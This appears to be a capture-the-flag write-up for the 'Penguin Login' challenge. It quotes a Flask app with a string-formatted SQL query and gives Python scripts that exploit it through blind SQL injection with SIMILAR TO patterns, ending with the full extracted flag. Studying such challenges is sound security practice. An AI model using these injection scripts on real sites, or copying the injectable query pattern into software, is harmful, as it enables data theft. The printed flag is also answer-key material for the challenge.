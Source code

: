 # Penguin Login

## Description
```
I got tired of people leaking my password from the db so I moved it out of the db. penguin.chall.lac.tf
```

## Provided Files
`penguin-login.zip`

## Writeup

First of all I took a look at the provided files. <br/>
Inside the only interesting one was `app.py`. <br/>
```py
allowed_chars = set(string.ascii_letters + string.digits + " 'flag{a_word}'")
forbidden_strs = ["like"]

with app.app_context():
    conn = get_database_connection()
    create_sql = """
        DROP TABLE IF EXISTS penguins;
        CREATE TABLE IF NOT EXISTS penguins (
            name TEXT
        )
    """
    with conn.cursor() as curr:
        curr.execute(create_sql)
        curr.execute("SELECT COUNT(*) FROM penguins")
        if curr.fetchall()[0][0] == 0:
            curr.execute("INSERT INTO penguins (name) VALUES ('peng')")
            curr.execute("INSERT INTO penguins (name) VALUES ('emperor')")
            curr.execute("INSERT INTO penguins (name) VALUES ('%s')" % (flag))
        conn.commit()

@app.post("/submit")
def submit_form():
    conn = None
    try:
        username = request.form["username"]
        conn = get_database_connection()

        assert all(c in allowed_chars for c in username), "no character for u uwu"
        assert all(
            forbidden not in username.lower() for forbidden in forbidden_strs
        ), "no word for u uwu"

        with conn.cursor() as curr:
            curr.execute("SELECT * FROM penguins WHERE name = '%s'" % username)
            result = curr.fetchall()

        if len(result):
            return "We found a penguin!!!!!", 200
        return "No penguins sadg", 201

    except Exception as e:
        return f"Error: {str(e)}", 400

    # need to commit to avoid connection going bad in case of error
    finally:
        if conn is not None:
            conn.commit()
```

These are the interesting parts of the code. <br/>
One important thing to notice in here is that we are actually not able to get the flag itself. <br/>
Seeing this my guess was that although we cannot obtain the whole flag, we can actually guess the flag using something similar to `regular expressions`. <br/>

To test my theory I made a little script in python. <br/>
```py
import requests, string

allowed_chars = set(string.ascii_letters + string.digits + " 'flag{a_word}'")

print(allowed_chars)

base_URL = 'https://penguin.chall.lac.tf/submit'

forms = {
    'username': "' or name similar to 'pe__"
}

req = requests.post(base_URL, data=forms) 

print(req.text)
```

Using this I checked if I could use the `SQL` operator `SIMILAR TO` together with `whitespaces` to guess the flag piece after piece. <br/>
For those interested I got this knowledge from https://www.atlassian.com/data/sql/how-regex-works-in-sql.

before the bruteforce I checked the length of the flag with the script below. <br/>
```py
import requests

base_URL = 'https://penguin.chall.lac.tf/submit'

actual_flag = 'lactf{'

for i in range(10, 50):

    forms = {
        'username': "' or name similar to 'lactf{" + "_" * i
    }

    req = requests.post(base_URL, data=forms) 

    if req.text != 'No penguins sadg':
        print(i)
        break
```

Executing this I got the length of `45` which includes prefix and braces. <br/>
Putting together another script I was able to bruteforce the flag. <br/>
```py
import requests

base_URL = 'https://penguin.chall.lac.tf/submit'

# possible chars from app.py
possible_chars = 'abcedfghijklmnopqrstuvwxyz0123456789}X'

actual_flag = 'lactf{'
flag = 'lactf_' # Use "_" instead of "{" because otherwise you create an error

flag_size = 45 # flag size enumerated before with only whitespaces

for _ in range(1, 40):
    # looping through all possible characters for every position in the flag
    for char in possible_chars:
        forms = { 'username': "' or name similar to '" + flag + char + "_" * (flag_size - len(flag) - 1) }

        req = requests.post(base_URL, data=forms) 

        # Check if correct character was found and skip to next position
        if req.text != 'No penguins sadg':
            actual_flag += char
            flag += char
            break

        # check if no character was found and insert "_"
        if char == 'X':
            actual_flag += "_"
            flag += "_"
            break

    print(actual_flag)
```

Executing this script I slowly obtained the flag which concludes this writeup. <br/>
```sh
kali@kali python3 ./req.py
lactf{9
lactf{90
lactf{90s
lactf{90st
lactf{90stg
lactf{90stgr
lactf{90stgr3
lactf{90stgr35
lactf{90stgr35_
lactf{90stgr35_3
lactf{90stgr35_3s
lactf{90stgr35_3s_
lactf{90stgr35_3s_n
lactf{90stgr35_3s_n0
lactf{90stgr35_3s_n0t
lactf{90stgr35_3s_n0t_
lactf{90stgr35_3s_n0t_l
lactf{90stgr35_3s_n0t_l7
lactf{90stgr35_3s_n0t_l7k
lactf{90stgr35_3s_n0t_l7k3
lactf{90stgr35_3s_n0t_l7k3_
lactf{90stgr35_3s_n0t_l7k3_t
lactf{90stgr35_3s_n0t_l7k3_th
lactf{90stgr35_3s_n0t_l7k3_th3
lactf{90stgr35_3s_n0t_l7k3_th3_
lactf{90stgr35_3s_n0t_l7k3_th3_0
lactf{90stgr35_3s_n0t_l7k3_th3_0t
lactf{90stgr35_3s_n0t_l7k3_th3_0th
lactf{90stgr35_3s_n0t_l7k3_th3_0th3
lactf{90stgr35_3s_n0t_l7k3_th3_0th3r
lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_
lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_d
lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_db
lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs
lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_
lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0
lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w
lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0
lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}
```